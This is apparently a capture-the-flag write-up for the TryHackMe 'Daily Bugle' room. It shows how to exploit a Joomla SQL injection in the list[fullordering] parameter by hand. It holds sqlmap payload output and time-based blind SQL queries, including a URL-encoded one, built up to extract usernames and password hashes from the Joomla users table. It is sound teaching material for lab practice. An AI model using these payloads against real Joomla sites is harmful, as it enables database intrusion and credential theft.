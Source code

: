 # The Daily Bugle Room

### Introduction

Room hosted at https://tryhackme.com/

I tried doing this room without `sqlmap` as OSCP does not allow it in the exam. I wanted to see at least how you can take advantage of the blind sql injecion. 

All the write-ups for this room were using sqlmap and I will discuss how I did it without it. This will possibly help you as I could not find a straight forward guide on this exact setup.

### Diving into the SQLi
So we know the Joomla version and we have an exploit for it.

```
Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```

Searched the internet I could not find the exact way to leverage this info. Running `list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)` takes 5 seconds to return data, which means we can test queries. Playing with  the query `list[fullordering]=xxxx` yelds `Unknown column 'xxxx' in 'order clause'` and a 500 response. Now I know there is an **order by** statement there and that a correct query would return 200 and display an error. 

I am now trying to construct the original query using https://sqliteonline.com/ to test it.

```
SELECT 1 FROM demo ORDER BY 2;
```

**ORDER BY** takes selects as input as long as the select returns one column. Step by step I am going to build a query that will take longer when we have true statements. `SLEEP()` usually returns a 0 I am not sure why you can order by it but it seems to work.

```
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo limit 1);
```

So the query works and is delayed by 1 second. With adding of the WHERE statement we can make true/false selections.

```
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo limit 1);
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where 1>2 limit 1); #FALSE
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where 1<2 LIMIT 1); #TRUE
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where (SELECT COUNT(1) FROM demo)=6 LIMIT 1); # TRUE 
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where (SELECT COUNT(1) FROM demo)=5 LIMIT 1); # FALSE
```

Now we can use this to test how many rows a table has in our application. Joomla documentation shows us the default table for users. I am now using 

```
(SELECT SLEEP(5) FROM #__users where (SELECT COUNT(1) FROM #__users)=1 LIMIT 1)
```
I am not sure if we can send this directly to our browser. Let's url encode it
```
%28SELECT%20SLEEP%285%29%20FROM%20%23__users%20where%20%28SELECT%20COUNT%281%29%20FROM%20%23__users%29%3D1%20LIMIT%201%29 
```

I can now use OWASP Zap to fuzz the 1 here *%28SELECT%20COUNT%281%29%20FROM%20%23__users%29%3D**1**%20*. We can also write a script to automate this in python like we will see below.

Ok. So running the fuzzer shows a single row. Moving forward we check how many characters would the username and passwrod have.

```
(SELECT SLEEP(5) from #_users WHERE ((SELECT LENGTH(username) FROM #__users LIMIT 1 OFFSET 0))=1 limit 1)
```

Now we know how many characters we need to iterate thorugh to get the data. 
```
(SELECT SLEEP(5) from #__users WHERE substring((SELECT username FROM #__users LIMIT 1 OFFSET 0),1,1)=BINARY 0x6a limit 1)
(SELECT SLEEP(5) from #__users WHERE substring((SELECT username FROM #__users LIMIT 1 OFFSET 0),2,1)=BINARY 0x6a limit 1)
```
**LIMIT ... OFFSET ...** is used to iterate one row at a time. We do not need this for here as we have only one row in the table but might come in handy.

**substring(...,...,...)** is used to take each character at a time.

**=BINARY 0x...** is needed because Joomla did not like any '/" characters and so we switched to hex encoding. 

Extraction time. Being the password is really long we need some automation. We can do it in OWASP Zap I figure but I am not sure if it's easy to trasnfer out the data. A python script should work. :) 

I did the last part in  https://github.com/hack3rman/TryHackMe/blob/master/db-blind.py 

## Note
I just started in the security business and only have some experience as System Administrator. The guide might not be perfect but I await your input. Good luck!
